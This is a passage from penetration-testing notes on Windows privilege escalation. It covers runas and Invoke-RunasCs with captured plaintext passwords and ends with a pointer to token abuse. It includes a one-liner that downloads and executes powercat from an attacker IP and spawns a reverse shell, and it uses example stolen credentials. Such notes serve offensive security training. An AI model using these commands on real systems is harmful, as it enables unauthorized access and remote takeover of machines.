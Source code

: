 ```powershell
Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
```

## Runas Command

If we've gained access to a plaintext password, it's possible to use the [`runas` ](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\))command to execute commands as that user.

```powershell
PS C:\Users\steve> runas /user:backupadmin cmd
Enter the password for backupadmin:
Attempting to start cmd as user "CLIENTWK220\backupadmin" ...
PS C:\Users\steve> 
```

## Invoke-Runas

If we've gained access to a plaintext password, but don't have a full shell, we can use the [`Invoke-Runas`](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1) command that's part of the[ `PowerShell-Suite`](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master). Here is an updated and new version.&#x20;

{% embed url="https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1" %}

```powershell
PS> import-module ./Invoke-RunasCs.ps1
PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
```

### Spawn reverse shell

Powercat

```powershell
PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.49.211/powercat.ps1');powercat -c 192.168.49.211 -p 5555 -e cmd"
```



## Insecure Privileges - Abusing Tokens

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens" %}

<mark style="color:red;">**NOTE:**</mark> If stuck, or unsure: ippsec.rocks is a great source to walk you through the exploitation of these token privileges.



The first thing to do when popping a Windows shell is to check the user privileges.
